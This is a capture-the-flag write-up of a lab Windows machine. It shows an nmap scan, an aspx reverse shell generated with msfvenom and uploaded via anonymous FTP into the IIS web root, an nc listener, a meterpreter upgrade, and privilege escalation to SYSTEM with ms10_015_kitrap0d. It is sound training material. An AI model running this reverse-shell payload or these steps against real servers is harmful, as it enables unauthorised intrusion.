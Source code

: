 # Solution

Usual nmap scan
```
> nmap -sC -sV -oN nmap-initial 10.10.10.5
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see port 21 open with an anonymous login. We also see a web server.  
First we visit the web server. It contains a reference to Microsoft iis website, nothing interesting.  

We have write permission on the directory accessible with ftp. In addition we notice that ftp and the web server share the same root directory. It means that we can transfer a file through ftp and execute it by visiting the corresponding url.  
We try with a php reverse shell but it doesn't work. It's likely that there are some kind of checks on the file format and extension. We try to bypass the check in different ways.  

We managed to have a reverse shell by using a aspx reverse shell.
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=1234 -f aspx -o shell.aspx
```

Setting up the listener.
```
nc -lnvp 1234
```

By visiting http://10.10.10.5/shell.aspx we have a connection to the local 1234 port.  

To work in a more confortable environment we set up a metasploit handler (multi/handler) and we run the listener.  We have a windows shell now. We can upgrade the shell to a meterpreter shell using the post module multi/manage/shell_to_meterpreter.  
We know have a meterpreter shell with the web service privileges.
(I tried first to get the meterpreter shell by diretly uploading the windows/meterpreter/reverse_tcp payload to the web server but it produced some errors when executed).  

We use a metasploit post module to scan for possible vulnerabilities.
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 35 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

Some of these vulns allow priv escalation. We try ms10_092 but it doesn't work. So we move to the second one (ms10_015).
```
use exploit/windows/local/ms10_015_kitrap0d
```
We set the LHOST and the SESSION and we run the exploit, getting a NT AUTHORITY\SYSTEM shell.  
We can now look for the flags inside the corresponding Administrator's and user's Desktops.





